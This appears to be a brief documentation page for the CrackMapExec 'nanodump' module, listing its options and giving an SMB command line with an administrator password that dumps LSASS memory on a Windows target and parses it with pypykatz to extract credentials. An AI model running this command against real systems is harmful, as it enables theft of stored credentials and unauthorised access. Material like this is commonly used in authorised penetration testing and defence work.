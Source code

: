 # 🟢 nanodump

Get lsass dump using nanodump and parse the result with pypykatz

### Module Options

```
[*] nanodump module options:

TMP_DIR             Path where process dump should be saved on target system (default: C:\Windows\Temp\)
NANO_PATH           Path where nano.exe is on your system (default: /tmp/cme/)
NANO_EXE_NAME       Name of the nano executable (default: nano.exe)
DIR_RESULT          Location where the dmp are stored (default: DIR_RESULT = NANO_PATH)
```

```
crackmapexec smb $TARGET -u Administrator -p 'qwerty12345' -M nanodump
```

<figure><img src="../../../.gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>
